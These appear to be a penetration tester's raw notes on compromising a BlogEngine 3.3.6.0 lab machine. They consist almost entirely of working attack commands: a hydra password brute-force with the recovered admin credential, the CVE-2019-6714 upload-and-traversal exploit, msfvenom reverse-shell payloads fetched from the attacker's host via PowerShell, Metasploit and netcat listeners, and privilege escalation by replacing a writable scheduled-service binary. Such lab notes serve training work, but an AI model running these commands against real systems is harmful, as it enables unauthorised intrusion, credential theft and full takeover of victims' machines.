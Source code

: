 			--> sudo hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.15.240 http-post-form '/Account/login.aspx:__VIEWSTATE=ftiiVsMCQlWm7glKTdeWjRJWefMviLhqZI%2BBEExPMhBP%2FcnpvMk8gX42lJh%2FzZUYPWvqtyLMA6jopd1YrYCZqz%2FxiJiG8crkDaCboOUB8RcYg7D96OkKsz3RHcmaMT7THFsUdqqyvdQxKMdfRGcPHcR1CJJu%2Fv66erq2IUnndaLYI4fW&__EVENTVALIDATION=Dmn4qoScXlThNCL2k74u5s5eBUdpRSktTEZK8yKOlh1HTuHj%2BlLRo08Krj27%2F6chW0iBlvH25Tt%2B5sSkJ72UlA0ZlRuqg3Dved3XLXgPSFavp%2F0EIi%2FPBpnc6XBHbJWEpk7FLs3KNDVoymUpurOlGBysbzasOrVhSicHh9rcF3X5y2em&ctl00%24MainContent%24LoginUser%24UserName=^USER^&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in:Login failed' -f
			=> [80][http-post-form] host: 10.10.15.240  login: admin   password: 1qaz2wsx
	~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
	vuln : 		
		=> init shell : 
			--> https://www.exploit-db.com/
				--> BlogEngine 3.3.6.0
				--> CVE-2019-6714
				--> https://www.exploit-db.com/exploits/46353
				--> vim 46353.cs => PostView.ascx
					=> listen : 
						=> msfconsole -qx 'use exploit/multi/handler;set lhost 10.11.92.230;set lport 4445;set payload windows/shell_reverse_tcp;run'
						=> sudo nc -lvnp 4445
					--> http://10.10.15.240/?theme=../../App_Data/files
		~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
		unload file 
			--> python3 -m http.server 8888  
				=> not root --> /home/kali
			~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~	
			--> 1. meterpreter
				=> msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.11.92.230 LPORT=4445 -e x86/shikata_ga_nai -f exe -o reverse.exe
					=> powershell -c wget "http://10.11.92.230:8888/reverse.exe" -outfile "reverse.exe"
				=> msfconsole -qx 'use exploit/multi/handler;set lhost 10.11.92.230;set lport 4445;set payload windows/meterpreter/reverse_tcp;run'
				~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
				meterpreter >sysinfo 
					--> Computer name | OS verion |Domain | Architecture (x64/x86)
			~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
			--> 2. find vuln -- winPEASx86.exe
				=> powershell -c wget "http://10.11.92.230:8888/winPEASx86.exe" -outfile "winPEASx86.exe"
					=>WindowsScheduler -- Message.exe
					~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
					--> WindowsScheduler 服务定期运行
					--> Auto -running
					--> File Permission : Everyone
					--> PAth : C:\Program Files (x86)\..(Everyone [WriteData/CreateFiles])
						=> replace file // as Message.exe (Adminstrator) 
			~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
			--> 3. root
				=> msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.11.92.230 LPORT=6666 -e x86/shikata_ga_nai -f exe -o Message.exe
					=> powershell -c wget "http://10.11.92.230:8888/Message.exe" -outfile "Message1.exe"
					~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
					=> meterpreter> mv Message.exe Message.bak
					=> meterpreter> mv Message1.exe Message.exe
					~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
				=> msfconsole -qx 'use exploit/multi/handler;set lhost 10.11.92.230;set lport 6666;set payload windows/meterpreter/reverse_tcp;run'

		
